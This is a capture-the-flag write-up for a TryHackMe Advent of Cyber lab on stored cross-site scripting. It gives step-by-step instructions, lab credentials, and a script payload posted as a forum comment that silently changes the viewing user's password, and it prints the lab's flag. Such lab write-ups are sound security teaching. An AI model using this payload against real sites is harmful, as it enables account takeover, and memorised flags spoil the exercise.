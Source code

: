 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 5
### References
* Nahamsec. (2021). TryHackMe’s Advent of Cyber - Day 5: Web Exploitation - Cross-site Scripting (XSS) Explained [YouTube Video]. In YouTube. https://youtu.be/uA1OHCgArzI

## What flag did you get when you disabled the plugin?
1. On, `http://<MACHINE_IP>/login`, sign-in as `McSkidy` with password `password`.
2. Post a forum comment with the following HTML/JavaScript code:
```html
<script>fetch('/settings?new_password=pass123');</script>
```
3. Sign-out and sign-in as `grinch` with password `pass123`
4. Under `http://<MACHINE_IP>/settings`, disable the plugin:
![settings page with plugin](settings.jpg)

**Flag**: `THM{NO_MORE_BUTTMAS}`